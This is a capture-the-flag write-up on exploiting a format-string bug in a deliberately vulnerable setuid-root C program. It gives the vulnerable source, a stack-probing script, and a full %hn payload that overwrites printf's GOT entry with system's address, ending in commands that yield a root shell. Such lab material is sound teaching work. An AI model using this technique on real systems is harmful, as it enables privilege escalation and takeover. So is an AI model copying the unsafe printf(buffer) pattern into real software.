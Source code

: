 ```c
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[300];
    
    while(1) {
        fgets(buffer, sizeof(buffer), stdin);
        printf(buffer);
    }
}

int main() {
    setuid(0);
    setgid(0);

    vuln();

    return 0;
}
```

```txt
flag{50_7h475_h0w_w3_0v3rwr173_7h3_G0T}
```

```bash
gcc prog.c -o prog -no-pie -m32
```

> Note: We can do this with 64-bit executables too.

This challenge has PIE disabled so we can focus on the GOT. The executable has RELRO set to partial. If we have full RELRO then we can't overwrite the GOT entries.

In the challenge, we have an infinite loop that will call `fgets`, which is safe, and `printf` without a format specifier, which means we can perform a format string attack on this. The idea is that we want to overwrite one of the function's address in the GOT with the address of a function we want to execute.

Because the program is using an infinite loop, what we could do is try replacing the address of the `printf` function with a function that we want to call. On the first iteration of the loop, the payload will be executed by the `printf` function, then the next iteration of the loop will execute the function that `printf` replaced itself with. We'll replace it with the `system` function.

For more explanation on `got` and `plt`, check [this](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html). But basically, Those starting with `.plt` contain stubs to jump to the target, those starting with `.got` are tables of the target addresses.

We'll fuzz the program and check out the first 100 hex items on the stack:

```python
for i in range(100):
    try:
        # Format the counter
        p.sendline('%{}$x'.format(i).encode())
        
        # Receive the response
        result = p.recvline().decode()
        
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

We'll need to use `%n`, which will allow us to write the size of our input into the address pointed by `%n`. We can specify the address to write to on the stack by using `%<num>$n`.

So we can figure out where in the stack our input will be placed in by doing something like `AAAA%7$p` but we change the number 7 with some other numbers as well. If we see the output with `0x41414141`, then we know that that's where our input will land in the stack. In this case, our input landed on the 4th position on the stack, so `AAAA%4$p` printed out `0x41414141`.

So we can write an address into this position and when `printf` comes by to print our input out, it will access this address.

If we're trying to write a big value into the specified address, we'll need to break it up using `%hn`. For example, if we want to write `0xcafebabe` to `0xbffff6ae`. `0xcafe` (51966 in decimal) will be written in the high order bytes and `0xbabe` (47806 in decimal) in the low order bytes. We want to write those value at `0xbffff6ac`. It means writing `0xcafe` at `0xbffff6ac + 2` = `0xbffff6ae` (high order) and `0xbabe` at `0xbffff6ac` (low order).

```
\xac\xf6\xff\xbf\xae\xf6\xff\xbf%47798x%7$hn%4160x%8$hn
```

Where:
- `\xac\xf6\xff\xbf` (`0xbffff6ac`) points to the low order bytes.
- `\xae\xf6\xff\xbf` (`0xbffff6ae`) points to the high order bytes.
- `%47798x` will write 47798 bytes to the standard output since we already wrote 8 bytes to the stack.
- `%7$hn` will write 8 + 47798 = 47806 (`0xbabe`) at the first address specified (`0xbffff6ac`).
- `%4160x` will write 4160 bytes to the standard output.
- `%8$hn` will write `8 + 47798 + 4160 = 51966` (`0xcafe`) at the second address specified (`0xbffff6ae`).

For our challenge, we need to write the `system` function's address found in `libc` (`0xf7dff040`) to `printf` address on the GOT, which is `0x0804c00c`. So we write `0xf7df` (63455) to the high bytes, which is `0x0804c00c + 2 = 0x0804c00e`, and write `0xf040` (61504) to `0x0804c00c`.

The payload will be this:

```
\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn
```

Where:
- `\x0c\xc0\x04\x08` (`0x0804c00c`) points to the low order bytes.
- `\x0e\xc0\x04\x08` (`0x0804c00e`) points to the high order bytes.
- `%61496x` will write 61496 bytes to the standard output since we already wrote 8 bytes to the stack.
- `%4$hn` will write 8 + 61496 = 61504 (`0xf040`) at the first address specified (`0x0804c00c`).
- `%1951x` will write 1951 bytes to the standard output.
- `%5$hn` will write `8 + 61496 + 1951 = 63455` (`0xf7df`) at the second address specified (`0x0804c00e`).

We can send that to the program with python:

```python
python -c 'import sys; sys.stdout.buffer.write(b"\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```

Because this is an interactive shell, we'll export the payload into a file then do this bash command:

```bash
(cat payload ; cat) | ./prog
```

So now our input won't be passed into the `printf` function anymore, it will be passed into the `system` function. Now we basically got an interactive root shell.

[Format strings reference](https://axcheron.github.io/exploit-101-format-strings/)